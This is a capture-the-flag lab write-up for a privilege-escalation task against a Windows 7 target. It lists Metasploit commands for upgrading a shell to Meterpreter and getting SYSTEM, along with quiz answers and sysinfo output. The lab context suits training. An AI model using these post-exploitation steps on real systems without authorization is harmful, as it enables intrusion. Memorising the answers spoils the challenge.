 
## [Task 3] Escalate

### [Task 3] Escalate

Escalate privileges, learn how to upgrade shells in metasploit.

### 1 If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected)

I didn't need to do this because it automtically took me to a meterpreter shell. The way to do this though is:

CTRL+Z to background the shell.
use post/multi/manage/shell_to_meterpreter
set session 1
run

and it will escalate the current shell to a Meterpreter shell.

### 2 Select this (use MODULE_PATH). Show options, what option are we required to change? (All caps for answer)

SESSION.

### 3 Set the required option, you may need to list all of the sessions to find your target here.

### 4 Run! If this doesn't work, try completing the exploit from the previous task once more.

### 5 Once the meterpreter shell conversion completes, select that session for use.

### 6 Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.

If you run `getuid` you'll get the same info:

    meterpreter > sysinfo
    Computer        : JON-PC
    OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 0
    Meterpreter     : x64/windows
